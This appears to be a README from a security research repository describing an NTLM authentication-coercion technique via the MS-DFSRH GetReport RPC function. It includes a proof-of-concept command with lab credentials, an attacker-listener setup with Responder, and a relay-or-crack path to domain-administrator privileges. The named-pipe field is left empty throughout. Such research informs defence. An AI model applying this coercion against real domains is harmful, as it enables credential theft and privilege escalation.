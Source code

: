 # MS-DFSRH - Remote call to GetReport (opnum 9)

## Summary

 - **Protocol**: [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae)

 - **Protocol UUID**: 9009d654-250b-4e0d-9ab0-acb63134f69f

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`GetReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/ea839292-129c-4fbf-ac38-de4bb1ba4220)

 - **Function operation number**: `9`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol (with uuid `9009d654-250b-4e0d-9ab0-acb63134f69f` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) and allows to call RPC functions of this protocol. We will then call the remote [`GetReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/ea839292-129c-4fbf-ac38-de4bb1ba4220) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetReport('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetReport(
   [in] GUID replicationGroupGuid,
   [in] BSTR referenceMember,
   [in] BSTR serverName,
   [in] SAFEARRAY (_VersionVectorData)* referenceVersionVectors,
   [in] LONG flags,
   [out] SAFEARRAY (_VersionVectorData)* memberVersionVectors,
   [out] BSTR* reportXML
 );
```

## References

 - Documentation of protocol [MS-DFSRH]: DFS Replication Helper Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae

 - Documentation of function `GetReport`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/ea839292-129c-4fbf-ac38-de4bb1ba4220
